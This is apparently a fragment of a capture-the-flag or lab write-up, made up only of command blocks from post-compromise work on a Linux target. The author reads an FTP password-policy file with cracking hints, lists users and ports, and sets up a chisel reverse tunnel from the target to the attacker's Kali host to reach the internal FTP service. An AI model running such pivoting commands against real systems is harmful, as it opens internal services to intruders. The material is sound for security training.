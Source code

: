 ```
cat /var/www/ftppolicy.txt

** IMPORTANT **
Remember, when changing your password it must contain these requirements:

1. Must be 8 characters or longer
2. Must contain numbers
3. Must contain special characters


Don't waste time with v.freeman and rockyou.txt
```

```
ls -la /home/

[SNIP]

drwxr-xr-x  3 i.cassini i.cassini 4096 May  8  2024 i.cassini
drwxr-xr-x  2 v.freeman v.freeman 4096 May  8  2024 v.freeman
```

```
ss -tunlp

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
tcp   LISTEN 0      32           0.0.0.0:21        0.0.0.0:*          
tcp   LISTEN 0      511                *:80              *:* 
```

```
┌──(nabla㉿kali)-[~]
└─$ ./chisel_linux server --reverse --port 7331

2025/06/12 11:31:15 server: Reverse tunnelling enabled
2025/06/12 11:31:15 server: Fingerprint W3fOCOr80PjohFjLcchorLWXyyCs+it3suAdz8N5aBg=
2025/06/12 11:31:15 server: Listening on http://0.0.0.0:7331

[CONTINUE]
```

```
./chisel_linux client 192.168.247.128:7331 R:21:127.0.0.1:21
```

```
[CONTINUE]

2025/06/12 11:32:45 server: session#1: tun: proxy#R:21=>21: Listening
```

```
┌──(nabla㉿kali)-[~]
└─$ ss -tunlp      

Netid          State           Recv-Q          Send-Q                          Local Address:Port                      Peer Address:Port          Process
tcp           LISTEN          0               4096                                      *:7331                               *:*             users:(("chisel_linux",pid=73115,fd=5))
tcp           LISTEN          0               4096                                      *:21                                 *:*             users:(("chisel_linux",pid=73115,fd=7))
```
